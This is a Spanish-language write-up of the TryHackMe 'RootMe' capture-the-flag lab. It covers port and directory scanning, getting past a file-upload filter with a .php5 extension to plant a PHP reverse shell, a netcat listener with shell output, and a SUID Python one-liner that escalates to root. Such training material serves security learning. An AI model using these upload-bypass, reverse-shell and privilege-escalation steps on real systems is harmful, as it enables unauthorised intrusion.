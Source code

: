 ```yaml
---
layout: single
title:  "RootMe CTF Writeup [ES] - TryHackMe"
date:   2021-04-02 04:00:00 -0400
classes: wide
categories: THM
tags:
 - Privesc
---
```


En esta ocasión estaré resolviendo el lab [RootMe](https://www.tryhackme.com/room/rrootme) de la plataforma **TryHackMe**. Esta máquina es bastante sencilla como se verá a continuación.

## Lab info

![Lab Info](/images/THM/RootMe/00-lab-info.png "Machine Info"){: .align-center}


## Task 1 - Deploy the machine

Desplegar la máquina, no requiere respuesta.

## Task 2 - Reconnaissance

1 - Scan the machine, how many ports are open?
``` 
2
```
Según el escáner realizado con **nmap**, podemos ver que existen 2 puertos abiertos. Se han utilizado los siguientes comandos:

* ```nmap -p- -sS --min-rate 4000 -n -v 10.10.253.211 -oG allPorts.gnmap```
* ```nmap -sC -sV -p22,80 10.10.253.211 -oN ports.nmap```


```go
Nmap scan report for 10.10.253.211
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2 - What version of Apache is running?
```
2.4.29
```
Esta información se puede visualizar desde el escaner nmap o realizando ```whatweb http://10.10.253.211```
```bash
http://10.10.253.211 [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.253.211], Script, Title[HackIT - Home]
```
Desde el navegador se visualiza la siguiente home page:

![Web Page](/images/THM/RootMe/05-web-page.png){: .align-center}

3 - What service is running on port 22?
```
SSH
```

4 - Find directories on the web server using the GoBuster tool.
```
No requiere respuesta
```
5 - What is the hidden directory?

```
/panel/
```

Gobuster scan: 

* ```gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.253.211/ -t 300 --no-error```

```go
===============================================================
2021/04/02 19:02:50 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.253.211/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.253.211/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.253.211/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.253.211/panel/]
```

## Task 3 - Getting a shell

Para esta tarea la plataforma solicita obtener una shell en base a lo que se ha descubierto anteriormente. Para ello revisamos la ruta ```http://10.10.253.211/panel/``` en donde se visualiza un panel para subir archivos.

![Panel](/images/THM/RootMe/10-web-upload-page.png){: .align-center}

Esto nos hace pensar que es posible subir un archivo que nos entable una reverse shell. Para que funcione, debemos saber que lenguaje que interpretará la página. Revisando en Wappalyzer vemos que la web está construida en ```php```

![PHP](/images/THM/RootMe/15-web-upload-language.png){: .align-center}

Sabiendo esto, yo recomiendo utilizar el recurso de [Pentest Monkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) para la reverse shell con PHP.

Descargamos el archivo y lo editamos para asegurarnos de definir nuestra IP y Puerto en el que queremos recibir la shell.

![RSHELL](/images/THM/RootMe/20-reverse-shell-php.png){: .align-center}

Probamos a subir el archivo y nos encontramos con el siguiente mensaje:

![Web Error](/images/THM/RootMe/26-web-error.png){: .align-center}

Lo que nos da a entender que la extensión del archivo no es válida.

Para lidiar con esto lo que se puede hacer es crear múltiples archivos con distinta extensión y probar uno a uno o bien realizar esta comprobación con **BurpSuite** lo cual resulta más cómodo. Recordar que existe un [room](https://www.tryhackme.com/room/rpburpsuite) en la plataforma de TryHackMe donde se puede aprender a utilizar BurpSuite desde cero.

Dicho lo anterior, lo que se debe hacer es interceptar la subida del archivo y analizar la respuesta del lado del servidor hasta que nos dé una respuesta satisfactoria.

Se intercepta la petición realizada por el navegador y posteriormente se envía al repeater. En la izquierda tenemos la petición realizada con un archivo con extensión ```.php``` y en la derecha se visualiza la respuesta indicando que la extensión no es válida.

![Burp Error](/images/THM/RootMe/30-burp-error.png){: .align-center}

Cambiamos la extensión y vemos que la respuesta ahora es satisfactoria. Esta respuesta se obtiene con las extensiones ```.php2``` ```.php3``` ```.php4``` ```.php5```.

![Burp Ok](/images/THM/RootMe/35-burp-ok.png){: .align-center}

En mi caso subiré el archivo como rshell.php5

![Web Ok](/images/THM/RootMe/41-web-ok.png){: .align-center}

Como se aprecia en la imagen, se obtiene una respuesta exitosa y en el texto señalado se obtiene la ruta del archivo que fue subido. En mi caso la ruta es: ```http://10.10.253.211/uploads/rshell.php5```

Ahora con netcat abrimos el canal para la escucha tráfico en el puerto 443 que definimos anteriormente.

```go
nc -nlvp 443
listening on [any] 443 ...
```

Y ejecutamos el archivo en el navegador para obtener una shell con el usuario www-data.

```go
nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.253.211] 35932
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:23:22 up  3:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
la flag de este usuario se encuentra en ```/var/www/user.txt```.

```bash
THM{y0u_**********}
```

## Task 4 - Privilege escalation

Para la fase de escalada de privilegios lo primero sería hacer una búsqueda de archivos con permiso SUID habilitado.

```bash
$ find \-perm -4000 2>/dev/null | grep -v "snap"
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec
./bin/mount
./bin/su
./bin/fusermount
./bin/ping
./bin/umount
```

En base a lo obtenido y haciendo uso de la web [GTFObins](https://gtfobins.github.io/) podemos identificar que se puede explotar python para obtener una shell con privilegios elevados. En la sección de SUID nos indican como realizarlo.

![Web Ok](/images/THM/RootMe/45-gtfobins.png){: .align-center}


```bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

Por último se realiza una lectura de la flag ubicada en /root/root.txt

```bash
THM{pr1v1l**********}
```
Eso concluye la última pregunta de este lab.